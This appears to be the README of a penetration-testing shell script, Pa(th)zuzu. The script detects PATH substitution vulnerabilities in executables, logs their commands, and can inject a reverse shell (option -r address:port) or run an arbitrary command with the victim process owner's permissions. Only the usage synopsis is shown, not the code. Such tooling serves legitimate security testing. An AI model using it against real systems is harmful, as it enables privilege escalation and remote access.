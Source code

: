 # Pa(th)zuzu
Checks for PATH substitution vulnerabilities, logs the commands executed by the vulnerable executables and injects a reverse shell with the permissions of the owner of the process.

#How to make it work
- `chmod +x pathzuzu.sh`
- `./pathzuzu.sh [-r address:port] [-e command] [-t seconds] /path/to/command [args]`
  - `-r address:port Starts reverse shell to address:port`
  - `-e command      Runs command if target is vulnerable`
  - `-t seconds      Kills target (SIGTERM) after $seconds seconds`

Returns 0 if the executable is vulnerable, 1 otherwise.

Logs are saved in `pathzuzu.sh.log` ( `$(basename "$0").log` )

